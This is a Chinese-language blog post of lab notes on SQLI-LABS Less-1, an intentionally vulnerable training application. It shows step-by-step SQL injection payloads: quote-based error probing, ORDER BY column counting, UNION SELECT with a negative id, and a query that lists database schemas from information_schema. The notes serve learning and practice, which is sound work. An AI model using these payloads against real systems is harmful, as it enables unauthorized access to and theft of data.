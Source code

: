 ```yaml
---
layout: post
title: "SQLI-LABS 闯关笔记"
date: 2019-3-18 20:49:43
author: co0ontty
categories: CTF WEB MYSQL ALL
tags: CTF WEB MYSQL ALL 
describe: SQLI-LABS 闯关笔记 
---
```

## Less-1
```php
?id=1'
```
报错：  
```php
 near ''1'' LIMIT 0,1' at line 1
```
推断查询语句为：  
```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```
构造注入语句：
用单引号闭合 id='的前单引号
用--+ 闭合 id=''的后单引号
```php
?id=1'order by 1 --+ 
$sql="SELECT * FROM users WHERE id='1'order by 1 --+ ' LIMIT 0,1";
```
查看有多少字段，当输入到 4 的时候报错，说明存在 3 个字段  
```php
?id=1'order by 4 --+
```
联合查询 union 
```php
?id=1' union select 1,2,3 --+
```
正常显示，猜测函数 mysql_fetch_array 只被调用了一次，而 mysql_fetch_array() 函数从结果集中取得一行作为关联数组，即只显示一行数据。  
那么我们只要让第一行查询的结果是空集（即 union 左边的 select 子句查询结果为空），那么我们 union 右边的查询结果自然就成为了第一行，就打印在网页上了，这个 id 他一般传的是数字，而且一般都是从 1 开始自增的，我们可以把 id 值设为非正数（负数或 0），浮点数，字符型或字符串，即设置为数据库中查询不到的 id 值。
```php
?id=-1' union select 1,2,3 --+
```
查询数据库:  
```php
?id=-1' union select 1,2, (select group_concat(schema_name) from information_schema.schemata) -- +
```  